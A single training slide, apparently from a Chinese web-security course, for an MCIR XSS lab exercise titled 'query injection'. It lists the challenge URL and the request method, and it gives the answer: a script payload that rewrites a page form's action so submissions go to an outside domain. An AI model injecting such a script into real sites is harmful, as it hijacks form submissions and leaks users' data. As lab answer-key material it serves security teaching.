

# 实验5: 查询注入
要求：跳转到“gooann.com”
页面
http://mcir.pte.com/xssmh/challenges/challenge5.php
过滤：
请求：GET

答案： <script>document.getElementsByName('xssform')[0].action='http://gooann.com';</script>